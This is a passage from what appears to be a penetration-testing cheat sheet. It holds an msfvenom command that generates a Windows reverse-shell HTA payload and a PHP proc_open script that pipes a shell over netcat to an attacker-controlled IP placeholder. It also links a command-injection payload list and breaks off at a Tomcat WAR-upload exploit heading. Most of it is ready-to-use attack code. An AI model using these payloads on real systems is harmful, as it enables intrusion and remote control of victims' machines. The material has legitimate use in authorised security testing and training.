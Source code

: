 ```bash
msfvenom -p windows/shell_reverse_tcp LHOST=${KALI_IP} LPORT=${LISTENER_PORT} -f hta-psh -o /var/www/html/poc_hta.hta
```

### Payload List

[https://github.com/payloadbox/command-injection-payload-list](https://github.com/payloadbox/command-injection-payload-list)

### PHAR proc_open (PHP alternative) RCE (without using fsockopen)

[https://www.php.net/manual/en/function.proc-open.php](https://www.php.net/manual/en/function.proc-open.php)

```bash
<?php
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("file", "/tmp/error-output.txt", "a") // stderr is a file to write to
);

$cwd = '/tmp';
$env = array('some_option' => 'aeiou');

$process = proc_open('sh', $descriptorspec, $pipes, $cwd, $env);

if (is_resource($process)) {
    // $pipes now looks like this:
    // 0 => writeable handle connected to child stdin
    // 1 => readable handle connected to child stdout
    // Any error output will be appended to /tmp/error-output.txt

    fwrite($pipes[0], 'rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc $kali_ip 80 >/tmp/f');
    fclose($pipes[0]);

    echo stream_get_contents($pipes[1]);
    fclose($pipes[1]);

    // It is important that you close any pipes before calling
    // proc_close in order to avoid a deadlock
    $return_value = proc_close($process);

    echo "command returned $return_value\n";
}
?>
```

### Tomcat Manager Authenticated WAR File Upload Exploit
